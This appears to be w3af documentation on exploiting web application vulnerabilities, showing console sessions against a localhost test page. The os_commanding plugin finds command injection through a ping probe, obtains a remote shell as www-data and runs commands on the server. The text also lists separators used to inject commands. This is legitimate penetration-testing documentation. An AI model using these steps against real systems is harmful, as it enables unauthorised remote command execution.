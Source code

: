Exploiting Web application vulnerabilities
==========================================

``w3af`` allows users to exploit Web application vulnerabilities in an automated manner. The vulnerabilities to be exploited can be identified using ``audit`` plugins or manually by the user (and then the vulnerability details are provided to ``w3af``).

During the scan vulnerabilities are found and stored in specific locations of the knowledge base, from where exploit plugins can read and use the stored information to exploit the vulnerability. Exploiting a vulnerability identified by an audit plugin is easy:

.. code-block:: none

    w3af>>> plugins
    w3af/plugins>>> audit os_commanding
    w3af/plugins>>> back
    w3af>>> target
    w3af/config:target>>> set target http://localhost/w3af/os_commanding/vulnerable.php?command=f0as9
    w3af/config:target>>> back
    w3af>>> start
    Found 1 URLs and 1 different points of injection.
    The list of URLs is:
    - http://localhost/w3af/os_commanding/vulnerable.php
    The list of fuzzable requests is:
    - http://localhost/w3af/os_commanding/vulnerable.php | Method: GET | Parameters: (command)
    Starting os_commanding plugin execution.
    OS Commanding was found at: "http://localhost/w3af/osCommanding/vulnerable.php", using HTTP method GET.
    The sent data was: "command=+ping+-c+9+localhost". The vulnerability was found in the request with id 5.
    Finished scanning process.
    w3af>>> exploit
    w3af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
    Please use the interact command to interact with the shell objects.
    w3af/exploit>>> interact 0
    Execute "end_interaction" to get out of the remote shell. Commands typed in this menu will be runned on the remote web server.
    w3af/exploit/os_commanding-0>>> ls
    vulnerable.php
    vulnerable2.php
    w3afAgentClient.log
    w3af/exploit/os_commanding-0>>> end_interaction
    w3af/exploit>>> back
    w3af>>>

Exploiting one you've found manually, requires you to provide some input:

.. code-block:: none

    w3af>>> kb
    w3af/kb>>> help
    | list            | List the items in the knowledge base.
    | add             | Add a vulnerability to the KB
	w3af/kb>>> add os_commanding 
    w3af/kb/config:os_commanding>>> view
    | operating_system         | Remote operating system (linux or windows).
    | name                     | Vulnerability name (eg. SQL Injection)
    | url                      | URL (without query string parameters)
    | vulnerable_parameter     | Vulnerable parameter (needs to be one of the entered in the data field).
    | separator                | Command separator used for injecting commands. Usually one of&, |, &&, || or ; .
    | data                     | Query string or postdata parameters in url-encoded form
    | method                   | HTTP method
    w3af/kb/config:os_commanding>>> 

You simply ``set`` all the configuration settings and then execute ``save`` and ``back`` to store your vulnerability in the knowledge base. Once the information is there you'll be able to follow the same steps:

.. code-block:: none

    w3af>>> exploit
    w3af/exploit>>> exploit os_commanding
    os_commanding exploit plugin is starting.
    Vulnerability successfully exploited. This is a list of available shells:
    - [0] <os_commanding_shell object (ruser: "www-data" | rsystem: "Linux brick 2.6.24-19-generic i686 GNU/Linux")>
    Please use the interact command to interact with the shell objects.

